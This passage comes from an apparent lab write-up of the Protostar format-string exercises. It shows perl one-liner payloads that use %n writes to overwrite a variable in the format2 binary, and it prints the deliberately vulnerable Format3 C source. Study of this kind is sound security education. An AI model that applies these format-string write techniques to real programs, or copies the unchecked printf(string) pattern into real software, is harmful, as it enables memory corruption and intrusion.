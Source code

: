 ```lang-bash line-numbers 
user@protostar:~$ perl -e 'print "\xe4\x96\x04\x08"."%4\$08n"' | /opt/protostar/bin/format2
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
	LANGUAGE = (unset),
	LC_ALL = (unset),
	LC_CTYPE = "es_ES.UTF-8",
	LANG = "en_US.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
target is 4 :(
```

Ok, it works, so lets go for the 64:

```lang-bash line-numbers 
user@protostar:~$ perl -e 'print "\xe4\x96\x04\x08"."%60d"."%4\$08n"' | /opt/protostar/bin/format2
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
	LANGUAGE = (unset),
	LC_ALL = (unset),
	LC_CTYPE = "es_ES.UTF-8",
	LANG = "en_US.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
                                                         512you have modified the target :)
```

## Format3
In [Format3](http://www.exploit-exercises.com/protostar/format3) we are given the following vulnerable code:

```lang-clike line-numbers 
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);

  if(target == 0x01025544) {
    printf("you have modified the target :)\n");
  } else {
    printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```
